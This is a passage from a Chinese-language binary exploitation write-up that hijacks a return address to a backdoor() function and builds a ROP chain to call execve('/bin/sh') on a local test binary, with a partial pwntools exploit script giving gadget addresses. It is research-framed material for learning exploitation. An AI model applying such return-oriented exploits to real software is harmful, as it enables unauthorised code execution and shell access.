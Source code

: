 效果如图，发现可以的确可以劫持ret地址为`backdoor()`

[![](assets/1701606727-5a206e35392289e7d18a408aa80b3ad6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107164725-46505a3e-7d4a-1.png)

更进一步，我们尝试用rop调用`sys_execve("/bin/sh",0,0)`来getshell. 这里由于没有找到`/bin/sh`的字符串，可以自己调用read读一个到已知地址去，最终成功getshell

[![](assets/1701606727-de4e17ff5b7793b7a836e97cb7eb510f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107164737-4d293132-7d4a-1.png)

#### 示例exp

本身测试代码比较简单，这里的exp只作为研究参考

```plain
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

io = process('./pwn')
def p():
    gdb.attach(proc.pidof(io)[0],'b *0x401b6e')

backdoor_try = 0x401B55  
io.recvuntil("called")
pop_rdi = 0x000000000040291c #: pop rdi ; ret
pop_rsi = 0x0000000000404009 #: pop rsi ; ret
pop_rdx_rbx = 0x000000000049775b #: pop rdx ; pop rbx ; ret
pop_rax = 0x0000000000462f37 #: pop rax ; ret
syscall = 0x000000000040fac9 #: syscall
```